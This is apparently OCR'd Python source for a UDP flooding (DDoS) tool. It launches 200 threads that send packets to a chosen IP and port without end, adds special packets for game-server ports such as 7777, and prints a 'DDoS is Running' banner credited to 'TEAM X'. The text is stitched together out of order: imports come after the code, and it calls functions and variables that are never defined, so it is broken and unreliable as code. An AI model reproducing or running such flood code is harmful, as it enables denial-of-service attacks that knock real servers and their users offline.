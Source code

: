 #Urandom Dan Pacotes
class MyThread(threading.Thread):
     def run(self):
         while True:
                sock = socket.socket(
                    socket.AF_INET, socket.SOCK_DGRAM)
                
                msg = Pacotes[random.randrange(0,5)]
                     
                sock.sendto(msg, (ip, int(port)))
                
                
                if(int(port) == 7777):
                    sock.sendto(Pacotes[5], (ip, int(port)))
                elif(int(port) == 7796):
                    sock.sendto(Pacotes[4], (ip, int(port)))
                elif(int(port) == 7771):
                    sock.sendto(Pacotes[6], (ip, int(port)))
                elif(int(port) == 7784):
                    sock.sendto(Pacotes[7], (ip, int(port)))
                    
                

if __name__ == '__main__':
    try:
     for x in range(200):                                    
            mythread = MyThread()  
            mythread.start()                                  
            time.sleep(.1)    
    except(KeyboardInterrupt):
         os.system('cls' if os.name == 'nt' else 'clear')
         
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
		th = threading.Thread(target = run2)
		th.start()
		th = threading.Thread(target = run3)
		th.start()
		th = threading.Thread(target = run4)
		th.start()
else:
		th = threading.Thread(target = run5)
		th.start()import random
import socket
import threading
import platform

print("DDoS is Running in : "+platform.system())

if platform.system() == 'Windows':

	print("""
 TEAM X is Presenting to you :
